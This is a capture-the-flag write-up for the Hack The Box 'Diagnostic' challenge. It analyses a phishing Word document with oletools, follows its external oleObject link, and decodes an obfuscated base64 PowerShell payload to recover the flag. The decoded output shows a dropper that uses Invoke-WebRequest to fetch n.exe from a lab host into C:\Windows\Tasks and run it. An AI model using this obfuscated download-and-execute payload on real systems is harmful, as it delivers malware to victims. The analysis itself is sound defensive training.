

CHALLENGE DESCRIPTION

Our SOC has identified numerous phishing emails coming in claiming to have a document about an upcoming round of layoffs in the company. The emails all contain a link to diagnostic.htb/layoffs.doc. The DNS for that domain has since stopped resolving, but the server is still hosting the malicious document (your docker). Take a look and figure out what's going on.

First we need to download the malicious file from `http://<IP-lab>:<PORT-lab>/layoffs.doc`

Once we have downloaded the file, we can start our analysis: 

```bash 
┌──(kali㉿kali)-[~/challenges/diagnostic]
└─$ file diagnostic.doc
diagnostic.doc: Zip archive data, made by v2.0 UNIX, extract using at least v2.0, last modified Jun 01 2022 11:19:18, uncompressed size 0, method=store
```

In the same way, we can apply the `7z l diagnostic.doc` to see the content, but let's go straight with `oletools`: 

```bash 
┌──(kali㉿kali)-[~/challenges/diagnostic]
└─$ oleid diagnostic.doc
oleid 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: diagnostic.doc
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description
--------------------+--------------------+----------+--------------------------
File format         |MS Word 2007+       |info      |
                    |Document (.docx)    |          |
--------------------+--------------------+----------+--------------------------
Container format    |OpenXML             |info      |Container type
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted
--------------------+--------------------+----------+--------------------------
VBA Macros          |No                  |none      |This file does not contain
                    |                    |          |VBA macros.
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.
--------------------+--------------------+----------+--------------------------
External            |1                   |HIGH      |External relationships
Relationships       |                    |          |found: oleObject - use
                    |                    |          |oleobj for details
--------------------+--------------------+----------+--------------------------
```

We see a red flag, let's use the recomended command: 

```bash 
┌──(kali㉿kali)-[~/challenges/diagnostic]
└─$ oleobj diagnostic.doc
oleobj 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

-------------------------------------------------------------------------------
File: 'diagnostic.doc'
Found relationship 'oleObject' with external link http://diagnostic.htb:40365/223_index_style_fancy.html!
```

Going to this direction, we cat's see any interesting, 


with `ctrl + u` we can review the source code: 



Let's copy this hide content, change the char34 and char58 to its ascii code and convert the base64 strings to ascii: 

```bash 
┌──(kali㉿kali)-[~/challenges/diagnostic]
└─$ echo "JHtmYGlsZX0gPSAoIns3fXsxfXs2fXs4fXs1fXszfXsyfXs0fXswfSItZid9LmV4ZScsJ0J7bXNEdF80c19BX3ByMCcsJ0UnLCdyLi4ucycsJzNNc19iNEQnLCdsMycsJ3RvQycsJ0hUJywnMGxfaDRuRCcpCiYoInsxfXsyfXswfXszfSItZid1ZXMnLCdJbnZva2UnLCctV2ViUmVxJywndCcpICgiezJ9ezh9ezB9ezR9ezZ9ezV9ezN9ezF9ezd9Ii1mICc6Ly9hdScsJy5odGIvMicsJ2gnLCdpYycsJ3RvJywnYWdub3N0JywnbWF0aW9uLmRpJywnL24uZXhlJywndHRwcycpIC1PdXRGaWxlICJDOlxXaW5kb3dzXFRhc2tzXCRmaWxlIgomKCgoIns1fXs2fXsyfXs4fXswfXszfXs3fXs0fXsxfSIgLWYnTDlGVGFza3NMOUYnLCdpbGUnLCdvdycsJ0wnLCdmJywnQzonLCdMOUZMOUZXaW5kJywnOUZrekgnLCdzTDlGJykpICAtQ1JlcGxBY2Una3pIJyxbY2hBcl0zNiAtQ1JlcGxBY2UoW2NoQXJdNzYrW2NoQXJdNTcrW2NoQXJdNzApLFtjaEFyXTkyKQo=" | base64 -d
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```

We can read this content by defyning the file variable with powershell: 

```bash
┌──(kali㉿kali)-[/home/kali/challenges/diagnostic]
└─$ pwsh
PowerShell 7.5.1

┌──(kali㉿kali)-[/home/kali/challenges/diagnostic]
└─PS> ${file} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')

┌──(kali㉿kali)-[/home/kali/challenges/diagnostic]
└─PS> echo $file
HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}.exe
```
